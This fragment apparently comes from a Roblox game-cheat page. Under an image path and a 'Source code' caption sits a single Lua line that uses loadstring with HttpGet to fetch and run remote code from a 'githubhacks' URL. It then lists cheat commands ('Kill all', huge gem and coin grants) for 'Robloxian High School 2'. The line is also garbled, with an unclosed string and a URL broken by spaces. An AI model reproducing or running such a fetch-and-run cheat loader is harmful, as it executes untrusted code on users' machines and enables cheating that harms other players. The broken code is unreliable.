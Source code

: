 
Yol344 = loadstring(game:HttpGet("https://raw.githubhacks.com/yol344/Robloxian High School 2/Gui hacks/Commamds ;Kill all ;gems 100000000000 ;coins 3000000
